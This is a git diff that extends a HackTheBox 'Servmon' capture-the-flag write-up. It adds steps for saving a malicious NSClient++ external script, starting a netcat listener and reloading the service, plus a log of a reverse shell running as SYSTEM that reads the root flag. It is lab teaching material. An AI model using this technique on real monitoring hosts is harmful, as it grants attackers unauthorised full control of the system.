

Add some text

diff --git a/_writeups/2024/HTB/Servmon.md b/_writeups/2024/HTB/Servmon.md
@@ -598,14 +598,49 @@ nadine@SERVMON C:\Users\Nadine\Desktop>dir
 
 <br />
 
-### 2.- Create the malicious external script:
+### 2.- Create the malicious script:
 
 To do this, go to the NSClient++ panel, click on `“Settings”`, then `“External Scripts”`, followed by `“Scripts”`, and finally press `“Add new”`.
 
-Now we fill in all the required fields for the script creation:
+Now we fill in all the required fields for the script creation and click on `"Add"`:
 
 <br />
 
 ![8](../../../assets/images/Servmon/8.png)
+
+<br />
+
+### 3.- Run the malicious script:
+
+Once created, we click on "Changes" -> "Save configuration".
+
+And finally, we start the listener and reload NSClient pressing on "Control" -> "Reload".
+
+<br />
+
+```bash
+❯ sudo nc -nlvp 443
+[sudo] contraseña para theredp4nther: 
+listening on [any] 443 ...
+connect to [10.10.14.15] from (UNKNOWN) [10.10.10.184] 50033
+Microsoft Windows [Version 10.0.17763.864]
+(c) 2018 Microsoft Corporation. All rights reserved.
+
+C:\Program Files\NSClient++>whoami
+
+nt authority\system
+
+C:\Program Files\NSClient++>type \Users\Administrator\Desktop\root.txt   
+
+1f19b7089b093d81ab2b747b2dxxxxxx
+```
+
+<br />
+
+Yes! We have a shell and the root flag.
+
+One more Windows machine pwned!!
+
+Keep hacking!!❤❤
 
 <br />
